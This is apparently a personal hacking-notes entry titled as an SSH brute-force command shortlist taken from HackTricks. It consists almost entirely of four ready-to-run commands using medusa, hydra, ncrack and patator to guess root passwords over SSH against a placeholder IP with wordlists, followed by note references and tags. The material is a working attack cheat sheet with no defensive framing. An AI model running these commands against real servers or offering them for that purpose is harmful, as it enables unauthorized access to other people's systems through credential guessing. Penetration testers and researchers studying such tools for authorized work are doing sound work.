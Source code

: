 # SSH brute force command shortlist from hacktricks
```bash
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh
hydra -l root -P passwords.txt [-t 32] <IP> ssh
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
patator ssh_login host=<ip> port=22 user=root 0=/path/passwords.txt password=FILE0 -x ignore:mesg='Authentication failed'
```

# References
- [20221003150346](/zet/20221003150346/) SSH brute force
- ~/kb/hacking/misc/bruteforcing-tools.md

Tags:
    #assorted


